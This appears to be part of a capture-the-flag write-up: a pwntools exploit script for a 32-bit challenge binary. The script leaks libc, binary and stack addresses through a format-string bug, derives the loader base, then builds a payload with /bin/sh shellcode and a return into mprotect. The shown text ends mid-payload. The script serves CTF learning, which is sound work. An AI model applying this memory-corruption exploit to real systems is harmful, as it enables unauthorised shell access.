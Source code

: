 Lets create our exploit:
```python
from pwn import *

def start():
    global p, libc
    if args.REMOTE:
        p = remote('127.0.0.1', 1337)
        #p = remote('euan-ctf-lb-1666742192.eu-west-2.elb.amazonaws.com', 1337)
        libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    else:
        p = process(elf.path)
        libc = elf.libc

# Initialization
elf = ELF('./repeat_your_beat')
ld = ELF('/lib/ld-linux.so.2')

start()
p.recvuntil("first!")

p.sendline('%2$x:%3$x:%83$x')
p.recvline()
libc_leak, binary_leak, stack_leak = [int(x, 16) for x in p.recvline(keepends=False).decode().split(':')]

log.success(f'Libc leak = {hex(libc_leak)}')
log.success(f'Binary leak = {hex(binary_leak)}')
log.success(f'Stack leak = {hex(stack_leak)}')

# setting the libc and binary base using the leaks
libc.address = libc_leak - libc.symbols['_IO_2_1_stdin_']
# Binary leak gives address of <main + 26>
elf.address = binary_leak - (elf.sym.main + 26)
# Using offset2libc type of attack on ld base address. There is a static difference between the base addresses of libc and ld
ld_base_from_libc_base_offset = 0x211000
ld.address = libc.address + ld_base_from_libc_base_offset

log.success(f'Libc @ {hex(libc.address)}')
log.success(f'Loader @ {hex(ld.address)}')
log.success(f'Binary @ {hex(elf.address)}')

# Getting value at __libc_stack_end to get a page-aligned value for stack
p.sendline(b'%8$s' + p32(ld.symbols['__libc_stack_end']))
stack_end = u32(p.recvline(keepends=False)[:4])
log.success(f'Stack end @ {stack_end}')

# Calculated using gdb for the binary
saved_eip_offset = -40
input_buffer_offset = -328

# Shellcode generated using pwntools
shellcode = b'\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'
payload = shellcode
payload += b'\xcc'*(260 - len(payload)) # offset upto the address which will be popped into ecx: pop ecx
payload += p32(stack_leak + saved_eip_offset + 4) # fixing ecx to give esp it's original value
payload += b'JUNK'*2 # junk for ebx and ebp
payload += b'A'*16 # Junk upto return address
payload += p32(libc.sym.mprotect) # jmp to mprotect
payload += p32(stack_leak + input_buffer_offset) # return address for mprotect
```